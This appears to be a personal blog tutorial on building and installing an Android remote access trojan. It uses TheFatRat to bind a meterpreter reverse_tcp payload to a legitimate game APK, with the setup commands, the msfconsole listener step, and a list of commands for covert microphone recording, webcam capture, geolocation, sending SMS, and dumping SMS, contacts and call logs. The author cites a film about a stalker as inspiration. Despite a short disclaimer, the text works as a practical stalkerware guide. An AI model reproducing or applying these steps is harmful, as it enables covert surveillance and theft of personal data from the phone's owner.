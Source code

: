 ```yaml
---
title: Trying out an android Remote Access Trojan (RAT)
author: hugo
date: 2023-04-05 09:11:00 +0200
categories: [Tutorial, security]
tags: [hacking, android]
render_with_liquid: false
---
```



> This tutorial will guide you through the process of infecting Android phones with a trojan. The author gives this example for educational purposes and does not incentivise you to apply these techniques without prior consent
{: .prompt-info }

## The art of deception

_The best defense is a good offense_. Once you're able to write this up and distribute it yourself you'll get a good grasp of how this attack works and what to look out for to stay protected on the internet. Let's define what a trojan is and what we intend to do here today.

<em>In computing, a Trojan horse is any malware that misleads users of its true intent by disguising itself as a real program. The term is derived from the ancient Greek story of the deceptive Trojan Horse that led to the fall of the city of Troy.</em> [`Wikipedia`](https://en.wikipedia.org/wiki/Trojan_horse_(computing)).

To perform this attack you:

1. do not need to "root" your device. You should be able to connect your phone via USB or wifi and drag and drop the executable onto the phone without prior phone configuration.
2. will need to have physical access (pin number) to the phone you're targeting because Android is able to identify it as a trojan and tries to prevent you from installing it.

## Inception

I got inspired to write this blog post after watching a disturbing movie on netflix. "Unlocked" is the story of a korean psychopath who installs malware on a girl's lost cell phone and uses it to track her every move. The movie and the plot were not great but this idea stuck with me. It can't be that easy to install a tracker on a phone? right?

It took me a while to understand what tools and software exist out there. My mind naturally gravitated to the Google store first. I figured that the easiest and frictionless solution you could ever wish for would be on the App store. After some digging I finally discovered Airdroid which provides a lot of those malware features like GPS tracking and screen monitoring. The only two problems I had with it is that it's not a stealth solution, the app notifies the user that it's running on the background, and your data is sent to god knows who's server out there on the internet. I set it upon myself to find "better". A couple of weeks later I came to the realization that all of my deep web searches were in vain and got burnt out from clicking through all the online scams down there. The few forums I actually found looked like they came out from the 1990's which gave me nostalgia and some happy memories of what the early web looked like but ultimately it did not provide any answers.

After a couple of days I finally found the right keyword to search on google and came accross 10 potential candidates for this blog post. My mind finally settled on one called "TheFatRat" and "AndroRat".

## Strategy

Let's review what we are about to do. The plan is to test this malware locally on a virtual android environment and make sure that our server can successfully command and control the android phone. Once that's validated we can increase the complexity by deploying it onto an actual phone on our local area network. I was planning on showcasing at least four open source projects but ended up only reviewing two of them. The [L3MON](https://github.com/D3VL/L3MON) project vanished from github unfortunately and the [xhunter](https://github.com/anirudhmalik/xhunter) project did not work despite using the release and making sure to use the right Android OS version. It's been quite hard to find anything that (kind of) works so I'm happy to have at least found one open source project that actually applied the malware.

## Configuring and installing

We will be trying out two RATs today: [TheFatRat](https://github.com/screetsec/TheFatRat) and [AndroRAT](https://github.com/karma9874/AndroRAT). Both of which have their pros and cons. 

Starting in second place we have AndroRAT. The advantage of using this RAT is the fact that the author shared the actual Java code so you're able to modify and understand how it does it's magic. I deployed AndroRAT on one AVD and two actual phones (OS 13 and 6.0.1) and they were all extremely unstable. The RAT successfully spawned a reverse shell on my computer but it would randomly break and I would have to repeat the installation cycle all over again every time. If it wasn't for the transparency of the codebase I don't think I would have bothered mentioning this program in the first place but I can see potential in it. 

Our clear winner here today is TheFatRat who's functionalities are far and wide. This small executable claims it can take on Windows, Mac, Linux computers as well as android phones. I have yet to fully test and assess these claims but so far I have been blown away by the ease of use and the sheer amount of features this thing has. With our previous RAT we had to install and run a shaddy looking app which does not seem like a credible attack strategy. TheFatRat on the other hand allows us to attach the trojan onto a legitimate app which is how I assume most malware is distributed nowadays. TheFatRat has however a glaring problem which is that it's closed source. The program works thanks to a couple of bash scripts and pre-compiled (c++ code?) but you won't get to see a single line of actual source code which is disappointing to say the least.

Enough talk let's configure and install this software to see what it can do.

```console
    [waz@localhost]# git clone git@github.com:screetsec/TheFatRat.git
    [waz@localhost]# cd TheFatRat
    [waz@localhost]# chmod +x setup.sh && ./setup.sh
```
If the setup fails try running it again, it solved the issue for me as some libraries conflicted with existing ones I had previously installed.

Once the setup is complete you now see a program called _fatrat_ at the root of the project. Run it and it will start the following command line prompt

![FatRat welcome screen](/assets/img/posts/2023-04-05_11-31.png){: width="100%"}

The purpose of this tutorial today is to run an Android trojan so let's choose option number 5. You will then be asked to choose the host ip address, the host's port and the app you want to attach the payload to. I've choosen Flappy bird which I downloaded from APK mirror. The host ip is the IP address of the server that should communicate back with the infected target. Don't forget to allow the servers to communicate on the port you choose to run in your firewall.

![FatRat host configuration](/assets/img/posts/2023-04-05_11-38.jpg){: width="100%"}

Later in the process choose the option 3 "android/meterpreter/reverse_tcp" and then option 3 "Use MsfVenom"

Once configured make sure to add a listener and give it a name, I gave it the name `myratconfig.rc`. This will list out the configuration which will now be used to run our local server. This next command will start listening for incoming HTTP requests 

```console
    [waz@localhost]# msfconsole
```

Now copy paste the contents of `myratconfig.rc` in the console to start listening for incoming requests. The next step is to send the trojan and install it on a device. You can start a local android instance with the following command `./emulator -avd Pixel_API_33` or connect your phone to your computer via USB. Once installed it's you'll have a number of interesting commands at your disposal. You'll notice that the phone does not even need to have the infected app in the background in order to work

Here are the commands I found most interesting:

```console
# record the next 20 seconds activity from the microphone
record_mic -d 20
# send text messages 
send_sms -d +351961234567 -t "GREETINGS SWEETHEART."  
# list available cameras
webcam_list 
# take a picture from the camera s phone
webcam_snap 2
# start streaming the back camera
webcam_stream 
# locate the phone by returning the exact longitude/latitude position
wlan_geolocate -a REPLACE_WITH_YOUR_GOOGLE_API_KEY
# take a screenshot 
screenshot
# copy all of the call logs on the phone
dump_calllog
# copy all of the sms conversations on the phone
dump_sms
# copy all of the contacts on the phone
dump_contacts
```
## Video

I like to add a small clip to showcase what was said so far. Enjoy !

<div style="padding-top: 5px; padding-bottom: 5px; position:relative; display:block; width: 100%; min-height:400px">

<iframe width="100%" height="400px" src="https://youtube.thekor.eu/uploads/netgear/Videos/chirpy/2023-04-05%2022-31-03.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen sandbox></iframe>

</div>

## Conclusion

I started this pen-tester/security journey recently and it feels like opening a pandora's box. The modern hacker has so many tools available at his disposal and the scary part is that I needed absolutely no programming knowledge to pull this off. A bit of curiosity sprinkled with some persistence here and there did the trick. If this blog post could convey one idea it is this: be extremely careful with the apps you install even when they come from the app store. 

Thank you for reading 

